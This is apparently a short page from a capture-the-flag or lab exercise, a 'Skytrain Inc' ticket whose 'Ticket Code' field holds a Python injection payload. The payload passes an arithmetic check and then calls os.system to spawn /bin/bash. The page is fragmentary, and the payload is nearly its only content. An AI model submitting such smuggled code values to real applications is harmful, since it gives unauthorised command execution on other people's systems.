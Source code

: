# Skytrain Inc
## Ticket to 

__Ticket Code:__
**109+13==122 and __import__('os').system('/bin/bash') == False